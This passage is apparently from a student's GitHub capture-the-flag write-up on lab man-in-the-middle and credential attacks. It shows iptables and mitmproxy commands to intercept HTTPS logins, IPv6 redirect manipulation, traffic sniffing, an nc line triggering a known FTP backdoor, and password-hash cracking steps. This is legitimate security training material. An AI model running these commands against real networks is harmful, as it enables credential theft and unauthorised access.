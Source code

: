 d.	The observed traffic has a hash code wish can be decoded in base64 using the cmd: echo -n 'amFzb24ucGlua2VyOlJrYllGZzUxcUZYREwzUkg=' | base64 -d 
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/bcc9f925-7c5e-46d6-8654-4e3ad2724724)

e.	The website http://10.110.28.12/ was accessed with the username and password to get the flag as seen:  
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/06c6aa4c-253f-4b62-a5ec-8e5532686069)


**MiTM II**
While spoofing continues from the previous session, I redirect HTTPS traffic entering my Kali machine to the meterproxy using the cmd:
iptables -t nat -A PREROUTING -p tcp --dport 443 --dst 10.110.X.12 -j DNAT --to-destination 10.110.X.200
Then I ran mitmproxy with cmd below, click on the login.php HTTPS POST to get the credential as seen in the screenshot : 
mitmproxy --listen-port 443 --ssl-insecure --mode transparent
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/c6a67968-c1c9-4920-8ff6-58eb36e36761)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/88c3da2f-3a28-42e5-a054-ff588846e25a)

The website 10.110.28.12 was accessed with the credentials seen in the screenshot above, then navigated to passwords tab to capture the flag as seen in the screenshot below
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/801ed901-0969-4803-81e2-196625b555fe)


**MiTM III**
Configured Kali Linux to forward IPv6 packets and drop ICMP6 redirect with the cmd:
echo 1 > /proc/sys/net/ipv6/conf/all/forwarding
ip6tables -I OUTPUT -p icmpv6 --icmpv6-type redirect -j DROP
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/528d465a-ea88-4201-9bc1-f9e13f482777)


Used tcpflow to inspect the network traffic and the flag was captured in the traffic.
tcpflow -a -c ‘ip6’
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/2a0cf7d6-6d65-4d12-868a-cce1f2631dfa)


## Credential Attacks
**Credential Attack I**
Using the command below exposed the flag
nc 10.110.28.44 21
HELP ACIDBITCHEZ
id
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/d6f03d5b-c488-4d94-b167-8a6a48131890)


**Credential Attack II**
- a.	Write the passwd hash for john to a file.
- b.	Use password list to decrypt hash
- c.	Use the show cmd to display decrypted password
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/b30ffe21-e0b6-482a-859f-b0e1fd27f464)
